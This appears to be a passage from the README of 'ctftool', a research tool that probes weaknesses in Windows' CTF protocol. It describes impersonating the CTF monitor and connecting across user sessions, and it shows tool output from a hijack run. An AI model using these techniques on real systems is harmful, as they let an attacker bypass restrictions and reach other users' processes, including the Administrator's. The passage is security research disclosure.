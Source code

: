 [![Edit Session Screenshot](docs/edit-thumb.png)](docs/edit-session-full.png)

## Monitor Hijacking

Because there is no authentication involved between clients and servers in the
CTF protocol, an attacker with the necessary privileges to write to
`\BaseNamedObjects` can create the CTF ALPC port and pretend to be the monitor.

This allows any and all restrictions enforced by the monitor to be bypassed.

If you want to experiment with this attack, try the `hijack` command in `ctftool`.

```
An interactive ctf exploration tool by @taviso.
Type "help" for available commands.
ctf> hijack Default 1
NtAlpcCreatePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
NtAlpcSendWaitReceivePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
000000: 18 00 30 00 0a 20 00 00 00 11 00 00 44 11 00 00  ..0.. ......D...
000010: a4 86 00 00 b7 66 b8 00 00 11 00 00 44 11 00 00  .....f......D...
000020: e7 12 01 00 0c 00 00 00 80 01 02 00 20 10 d6 05  ............ ...
A a message received
        ProcessID: 4352, SearchUI.exe
        ThreadId: 4420
        WindowID: 00020180
NtAlpcSendWaitReceivePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
000000: 18 00 30 00 0a 20 00 00 ac 0f 00 00 0c 03 00 00  ..0.. ..........
000010: ec 79 00 00 fa 66 b8 00 ac 0f 00 00 0c 03 00 00  .y...f..........
000020: 12 04 01 00 08 00 00 00 10 01 01 00 00 00 00 00  ................
A a message received
        ProcessID: 4012, explorer.exe
        ThreadId: 780
        WindowID: 00010110
NtAlpcSendWaitReceivePort("\BaseNamedObjects\msctf.serverDefault1") => 0 00000218
000000: 18 00 30 00 0a 20 00 00 ac 0f 00 00 0c 03 00 00  ..0.. ..........
000010: fc 8a 00 00 2a 67 b8 00 ac 0f 00 00 0c 03 00 00  ....*g..........
000020: 12 04 01 00 08 00 00 00 10 01 01 00 58 00 00 00  ............X...
A a message received
        ProcessID: 4012, explorer.exe
        ThreadId: 780
...
```

## Cross Session Attacks

There is no session isolation in the CTF protocol, any process can connect to
any CTF server. For example, a Terminal Services user can interact with the
processes of any other user, even the Administrator.

The `connect` command in `ctftool` supports connecting to non-default sessions
if you want to experiment with this attack.

```
An interactive ctf exploration tool by @taviso.
Type "help" for available commands.
Most commands require a connection, see "help connect".
ctf> help connect
Connect to CTF ALPC Port.

Usage: connect [DESKTOPNAME SESSIONID]
Without any parameters, connect to the ctf monitor for the current
desktop and session. All subsequent commands will use this connection
for communicating with the ctf monitor.

If a connection is already open, the existing connection is closed first.

```